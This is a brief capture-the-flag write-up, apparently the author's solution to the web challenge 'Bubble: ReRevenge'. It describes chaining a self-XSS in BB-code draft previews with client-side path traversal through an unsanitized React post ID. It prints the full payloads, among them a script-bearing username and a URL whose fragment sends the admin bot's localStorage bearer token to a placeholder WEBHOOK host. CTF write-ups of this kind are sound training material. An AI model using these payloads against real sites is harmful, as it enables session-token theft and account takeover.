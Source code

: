 # Writeup 1

https://gist.github.com/as3617/25537beb3acaddc2ad4d025e6c08d29b

# Writeup 2

Author's solution for Bubble: ReRevenge

Draft functionality has Self XSS via BB-codes in preview

Create an account with the name like:
```
[yt srcdoc="<script>eval(parent.performance.getEntries().shift().name.split('#').pop())</script>"]
```
you still have 2 symbols left that you can use to unify username.Make a postAsk a bot to comment on your post, he always does a reply with your name in itPass the post ID with CSPT payload:

```
http://CHALLENGE/post/POST_ID/posts/..%252f..%252f..%252f..%252fdrafts%252fsave#new/**/Image().src='WEBHOOK?'+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')
```

Post ID is handled using React's useParams and then passed to the REST API url without sanitization, which forces bot to save the draft instead of posting the comment when he clicks on the button. 
